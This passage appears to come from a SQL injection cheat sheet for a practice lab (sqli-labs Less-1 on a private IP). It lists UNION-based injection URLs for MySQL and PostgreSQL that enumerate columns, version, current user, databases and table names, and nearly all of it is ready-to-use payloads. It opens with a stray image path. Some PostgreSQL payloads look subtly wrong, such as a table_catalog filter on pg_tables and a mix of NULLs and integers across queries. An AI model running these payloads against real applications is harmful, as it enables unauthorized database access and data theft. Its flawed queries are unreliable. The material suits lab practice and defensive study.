 > Using the same amount of columns you got on the previous step.

**postgresql**

`http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, NULL`

> Using the same amount of columns you got on the previous step.

One of the columns will be printed with the respective number.

---

#### Finding version

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, version()`

**postgres**

`http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, version()`

#### Finding database name

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1,2, database()`

**postgres**

`http://192.168.1.104/Less-1/?id=-1 union select NULL,NULL, database()`

#### Finding usernames logged in

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, current_user()`

#### Finding databases

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, schema_name from information_schema.schemata`

**postgres**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, datname from pg_database`

#### Finding table names from a database

**mysql**

```sql
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, table_name from information_schema.tables where table_schema="database_name"
```

**postgres**

```sql
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, tablename from pg_tables where table_catalog="database_name"
```
